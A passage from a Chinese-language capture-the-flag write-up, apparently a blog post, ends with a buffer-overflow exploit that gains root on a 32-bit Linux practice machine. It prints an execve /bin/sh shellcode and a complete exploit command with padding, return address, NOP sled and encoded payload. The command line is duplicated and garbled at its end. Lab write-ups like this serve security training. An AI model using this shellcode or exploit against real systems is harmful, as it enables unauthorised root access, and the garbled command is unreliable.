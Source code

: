 现在需要获取一些 shellcode，www.shell-storm.org/shellcode 这是非常好的一个写 shellcode 的学习网站，利用存储已编写的 Shellcode。因为它运行在 Intel，并且操作系统是 32 位 Linux，因此我从此处获取 Shellcode 连接：

```
http : //shell-storm.org/shellcode/files/shellcode-827.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjkOjyVznGqGRMWz3pySxURt7TMJjwBQGWvBH53VAXFxbIX8mUk5PgVg/640?wx_fmt=png)

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
      "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

有了 shellcode 就有了制作缓冲区溢出所需的三个组件，我的模板：

二进制中到缓冲区里的 EIP+ESP 位置 + 268+Shellcode

```
./r00t $(python -c "print 'A' * 268 + '\x80\xfb\xff\xbf' + '\x90' * 16 + '\xba\xa0\x7b\x18\x95\xdb\xcd\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x0b\x31\x50\x15\x83\xe8\xfc\x03\x50\x11\xe2\x55\x11\x13\xcd\x0c\xb4\x45\x85\x03\x5a\x03\xb2\x33\xb3\x60\x55\xc3\xa3\xa9\xc7\xaa\x5d\x3f\xe4\x7e\x4a\x37\xeb\x7e\x8a\x67\x89\x17\xe4\x58\x3e\x8f\xf8\xf1\x93\xc6\x18\x30\x93'") <7\xeb\x7e\x8a\x67\x89\x17\xe4\x58\x3e\x8f\xf8\xf1\x93\xc6\x18\x30\x93'")
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjan4ZmJoR4LjBENzf5WbYibicGIYddM4IIKpG3LSJZuC0Rgyic9l0DTo5g/640?wx_fmt=png)

这边通过溢出拿到了 root 权限，Proof.txt：

```
a70354f0258dcc00292c72aab3c8b1e4
```

You win this time young Jedi...

![](https://mmbiz.qpic.cn/mmbiz_png/9Ku2t1uaSwDSnPM80libzbs8ofzicXbQesVN9mGMnqZPxqCS8gUoHLkVWJkEPByShv4ul050UUYX4Phfnnc5lLJQ/640?wx_fmt=png)

由于我们已经成功得到 root 权限 & 找到 proof.txt，因此完成了 CTF 靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaRSfuVibrT80ovdTMiaZM0gZOFHmtS8KYVtVHtFNaz9XcENaibWibgmw8JIn1niaCurDOrBCjUbQ8az7fdzNMu8kTrw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/gCicgvu68od8ibyiahYEJ6XV4kkaUeCEMF4HvIuuPYGVxwMtGDTnb3ibDXjDke8TFG6yicwwEJ2Ik6QzI6c7oT5iczvg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/MKHUQ8R7BXBibc5TT0bsGFoG25ZFjUbyQtK7icU5VDD6Lxme5yKgoWpaDXd9HmZ1kfkhR3dbQ80dlu2jHJBSkCPQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VGhME4y0QLo3MIKX2xqqYXyKcoyCiaukQAj90M7CCMfhUskicraSNIaK2icT70MmUaHEJKiat91cPOZRkEs78qAHlQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)
